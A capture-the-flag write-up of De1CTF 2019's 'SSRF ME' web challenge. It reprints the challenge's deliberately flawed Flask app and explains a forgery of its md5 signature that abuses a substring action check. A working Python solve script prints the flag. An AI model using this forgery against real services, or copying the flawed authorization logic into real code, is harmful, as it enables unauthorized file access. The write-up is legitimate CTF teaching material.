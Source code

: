```yaml
---
title: "SSRF ME - De1CTF 2019"
date: "2019-08-06"
tags:
    - "De1CTF"
    - "Web"
    - "SSRf"
draft: false
---
```


> SSRF ME TO GET FLAG.  
> http://139.180.128.86

For this challenge we are provided with a url that returns the following python
code:
```python
#!/usr/bin/env python
#encoding=utf-8
from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json
reload(sys)
sys.setdefaultencoding('latin1')

app = Flask(__name__)

secert_key = os.urandom(16)


class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)):          #SandBox For Remote_Addr
            os.mkdir(self.sandbox)

    def Exec(self):
        result = {}
        result['code'] = 500
        if (self.checkSign()):
            if "scan" in self.action:
                tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
                resp = scan(self.param)
                if (resp == "Connection Timeout"):
                    result['data'] = resp
                else:
                    print resp
                    tmpfile.write(resp)
                    tmpfile.close()
                result['code'] = 200
            if "read" in self.action:
                f = open("./%s/result.txt" % self.sandbox, 'r')
                result['code'] = 200
                result['data'] = f.read()
            if result['code'] == 500:
                result['data'] = "Action Error"
        else:
            result['code'] = 500
            result['msg'] = "Sign Error"
        return result

    def checkSign(self):
        if (getSign(self.action, self.param) == self.sign):
            return True
        else:
            return False


#generate Sign For Action Scan.
@app.route("/geneSign", methods=['GET', 'POST'])
def geneSign():
    param = urllib.unquote(request.args.get("param", ""))
    action = "scan"
    return getSign(action, param)


@app.route('/De1ta',methods=['GET','POST'])
def challenge():
    action = urllib.unquote(request.cookies.get("action"))
    param = urllib.unquote(request.args.get("param", ""))
    sign = urllib.unquote(request.cookies.get("sign"))
    ip = request.remote_addr
    if(waf(param)):
        return "No Hacker!!!!"
    task = Task(action, param, sign, ip)
    return json.dumps(task.Exec())
@app.route('/')
def index():
    return open("code.txt","r").read()


def scan(param):
    socket.setdefaulttimeout(1)
    try:
        return urllib.urlopen(param).read()[:50]
    except:
        return "Connection Timeout"



def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest()


def md5(content):
    return hashlib.md5(content).hexdigest()


def waf(param):
    check=param.strip().lower()
    if check.startswith("gopher") or check.startswith("file"):
        return True
    else:
        return False


if __name__ == '__main__':
    app.debug = False
    app.run(host='0.0.0.0',port=80)
```

It's the code from the Flask app that is running on the website.

Basically it's a simple web app that allows us to do two things by using the
`action` parameter:

* scan: writes the content of a file located on the server in a file called
`result.txt`

* read: returns the content of the `result.txt` file

The `scan` and `read` actions are invoked by making a request to the `/De1ta`
endpoint.


The problem is that we need to provide a cookie called `sign` that is
remotely checked and must be in this format:
```
md5(secret_key + param + action)
```
`param` is used in conjuction with the `scan` action to indicate which file to
read.

We can see at the beginning of the python script that the `secret_key` is
generated using `os.urandom(16)`, so there's no way to bruteforce it.

Let's analyze the `/geneSign` endpoint.
It allows us to generate a signature using 'scan' as action:
```
md5(secret_key + param + 'scan')
```

The vulnerability in this application is located in the `Exec` function.
Instead of checking if the passed action is equal to `scan` or `read`, it
checks if the action string contains the `scan` and `read` strings.
We can exploit this by making a request to `geneSign` with `flag.txtread` as
`param`, so that the following signature is generated:

```
secret_key + 'flag.txtread' + 'scan'
```
and then use the signature with `scan` and `read` actions to read the flag.
Here's the python code to do that:

```python
#!/usr/bin/env python3
import requests
import urllib

def getSign(param, action):
    params = {'param': param}
    cookies =  {'action': action}
    r = requests.get("http://192.168.43.204:8080/geneSign", params=params, cookies=cookies)
    return r.text.strip().replace('\n', '')

action = 'readscan'
sign = getSign('flag.txtread', '')

params = {'param': 'flag.txt'}
cookies = {'sign': sign, 'action': action}

r = requests.get("http://192.168.43.204:8080/De1ta", params=params, cookies=cookies)
print(r.text)
```

Let's run it:
```
$ ./solve.py
{"code": 200, "data": "de1ctf{27782fcffbb7d00309a93bc49b74ca26}\n"}
```

### Flag
```
de1ctf{27782fcffbb7d00309a93bc49b74ca26}
```
